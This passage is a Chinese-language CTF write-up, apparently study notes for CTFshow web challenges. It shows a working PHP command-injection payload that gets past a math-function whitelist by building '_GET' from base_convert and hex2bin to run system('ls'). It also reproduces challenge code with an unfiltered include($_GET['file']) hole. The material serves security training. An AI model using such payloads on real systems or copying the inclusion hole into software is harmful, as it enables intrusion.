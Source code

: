 这题设置了白名单和黑名单，白名单是数学函数，黑名单则是一些符号，而且有长度限制

这题的思路其实就是要考虑用数字通过数学运算函数的转换来构造出我们需要用到的字符

就比如我们可以先将需要的字符转换成16进制后再转换成10进制，再执行命令的时候通过数学函数转换回去

[CTFshow-WEB入门-命令执行web124 - Hacker&Cat - 博客园](https://www.cnblogs.com/FallenStar/articles/17064728.html)

```
目标代码：$_GET['abs']($_GET['acos'])
```

```
dechex()，10进制转16进制

base_convert(值,原进制,目标进制)，任意进制转换

hex2bin，16进制转字符串
```

解题：

base_convert(26941962055,10,34) 为 hex2bin

base_convert(26941962055,10,34)(dechex(1598506324)) 为 _GET

构造payload

```
c=$pi=base_convert(26941962055,10,34)(dechex(1598506324));$$pi{abs}($$pi{asin})&abs=system&asin=ls
```



------



### **文件包含**

> 以PHP为例,常用的文件包含函数有以下四种include(),require(),include_once(),require_once()

#### Web78

php伪协议

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 10:52:43
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 10:54:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
```
